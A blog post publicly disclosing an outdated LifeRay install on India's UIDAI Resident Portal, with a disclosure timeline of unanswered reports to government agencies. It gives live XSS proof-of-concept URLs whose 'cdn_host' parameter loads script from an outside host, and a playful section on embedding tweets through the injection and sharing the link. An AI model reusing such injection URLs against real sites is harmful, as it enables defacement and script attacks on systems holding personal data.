 ```yaml
---
title: Aadhaar Vulnerability Public Disclosure
layout: post
image: aadhaar1.jpg
tags:
    - aadhaar
    - disclosure
    - sanitarypanels
    - 13ftwalls
---
```


# The Vulnerability

The UIDAI Resident Portal (with read access to entire Aadhaar Demographic data) is runing a vulnerable version
of LifeRay software. It is running LifeRay 6.1, which was declared End-of-Life in Febrary 2016.

This release includes multiple known vulnerabilities, including:

1.  A XSS issue, for which a PoC can be found at [resident.uidai.gov.in](https://resident.uidai.gov.in/?cdn_host=https://scan.bb8.fun) (Picture Credits: [@sanitarypanels](https://twitter.com/sanitarypanels))
2.  Multiple RCEs: See [issue-62](https://dev.liferay.com/web/community-security-team/known-vulnerabilities/liferay-portal-62) for eg.

In fact the release is so old it does not even appear on the ["Known Vulnerabilities"](https://dev.liferay.com/web/community-security-team/known-vulnerabilities) page on the LifeRay website; you have to go look at their [Archived Vulnerabilities](https://dev.liferay.com/web/community-security-team/known-vulnerabilities/liferay-portal-62).

# The PoC

You can find a simple Proof of Concept for the XSS issue at [resident.uidai.gov.in](https://resident.uidai.gov.in/?cdn_host=https://scan.bb8.fun).

The `cdn_host` parameter injects javascript from `$CDN_HOST/Resident-theme/js/custom.js`, in this case `https://scan.bb8.fun/Resident-theme/js/custom.js` which hosts a small snippet to overwrite the HTML of the page.

It shows up like:

![](/img/aadhaar1.jpg)

# Fun

The current script allows for embeding any tweet using a `tweet` parameter. To embed:

Go to any tweet, copy the part after `twitter.com` and pass it as the `tweet` parameter. For eg, to embed this tweet:

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">Breaking: Exclusive footage from inside <a href="https://twitter.com/UIDAI?ref_src=twsrc%5Etfw">@UIDAI</a>&#39;s IT department after media reports of Aadhaar data leaks. <a href="https://t.co/W7m9L0HvEX">pic.twitter.com/W7m9L0HvEX</a></p>&mdash; Aadhaar Compound Wall (@13footwall) <a href="https://twitter.com/13footwall/status/979301578686345216?ref_src=twsrc%5Etfw">March 29, 2018</a></blockquote>
<script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

1.  Look at the URL: `https://twitter.com/13footwall/status/979301578686345216`
2.  Copy `13footwall/status/979301578686345216` and pass it as the `tweet parameter`:
3.  The URL becomes`https://resident.uidai.gov.in/?cdn_host=https://scan.bb8.fun&tweet=13footwall/status/979301578686345216`
4.  [**SHARE IT**](https://resident.uidai.gov.in/?cdn_host=https://scan.bb8.fun&tweet=13footwall/status/979301578686345216)

# The Report

I initially reported this to `help@uidai.gov.in` in Jan 2017:

![](/img/aadhaar-report1.jpg)

Forgot all about it till Jan 2018, when someone mentioned I should try my luck with CERT-IN instead:

![](/img/aadhaar-report2.png)

This is still not fixed. Here is a complete timeline:

| Date        | What?                                                                                              |
| ----------- | -------------------------------------------------------------------------------------------------- |
| 16 Jan 2017 | Initially reported to `help@uidai.gov.in`. No response                                             |
| 21 Jan 2018 | Reported to `ceo@uidai.gov.in` and `info@cert-in.org.in`. No response                              |
| 19 Feb 2018 | Reminder sent to `ceo@uidai.gov.in` and `info@cert-in.org.in`                                      |
| 19 Feb 2018 | Acknowledgement from CERT                                                                          |
| 15 Mar 2018 | Reminder sent. No response                                                                         |
| 17 Mar 2018 | Notified [NCIIPC](rvdp@nciipc.gov.in)                                                              |
| 18 Mar 2018 | Confirmation from NCIIPC asking for more details. I replied back with a quote of previous exchange |
| 19 Mar 2018 | Confirmation from NCIIPC thanking me for the report.                                               |
| 19 Apr 2018 | Reminder sent to UIDAI asking for acknowledgement                                                  |
| 30 May 2018 | Reminder sent to NCIIPC and CERT asking for updates                                                |

The only change that I'm aware of since my initial report is that the website stopped declaring the [LifeRay version in a HTTP response Header](https://en.wikipedia.org/wiki/Security_through_obscurity).

